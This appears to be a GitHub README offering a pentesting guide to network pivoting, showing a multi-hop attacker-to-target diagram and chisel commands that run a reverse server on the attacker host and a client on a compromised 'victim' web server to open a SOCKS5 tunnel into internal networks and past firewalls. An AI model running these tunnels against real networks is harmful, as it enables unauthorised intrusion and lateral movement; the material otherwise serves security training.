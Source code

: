 # Pivoting-guide
Guide to Pivoting with sshuttle, gost and chisel
## General network diagram for examples
```
Attacker (Kali, 1.1.1.1)
│
└── Hop 1: Web server (10.0.0.5, accessible from the Internet)
│
└── Hop 2: Internal host (192.168.1.10, accessible only from 10.0.0.0/24)
│
└── Hop 3: Target server (172.16.0.20, accessible only from 192.168.1.0/24)
```
---
# 1. Pivoting via Chisel (HTTP tunnels)

**How ​​it works:**
- **Tunneling via HTTP/HTTPS**, similar to SSH, but works as a reverse proxy.
- The client connects to the server and opens **SOCKS5 or ports** to access the inside network.
- Suitable for **bypassing firewalls**, as it uses standard ports (80, 443).

**Example command:**
On the server (attacker):
```
chisel server --port 8080 --reverse
```
On the victim:
```
chisel client <SERVER_IP>:8080 R:socks
```
- `R:socks` — creates a SOCKS5 proxy on the server.
**When to use?**
- Need a **fast SOCKS proxy** without complex configuration.
- Traffic should go **via HTTP/HTTPS** (for example, if SSH is blocked).

### **Step 1: Setting up Chisel server on Kali**
**On the attacking machine (1.1.1.1)**
```
chisel server -v --port 8080 --reverse --key supersecret
```
- `--reverse`: allow reverse connections
- `--key`: secret key for authentication
- `-v`: verbose mode for debugging

### **Step 2: First hop (Kali → Web server)**
**On the web server (10.0.0.5)**:
```
./chisel client -v --auth user:pass 1.1.1.1:8080 R:1080:socks
```
- `R:1080:socks`: create a SOCKS5 proxy on port 1080 Kali, connecting to the chisel server on port 8080.
**Checking:**
```
curl --socks5-hostname 127.0.0.1:1080 http://10.0.0.5/internal-status
```
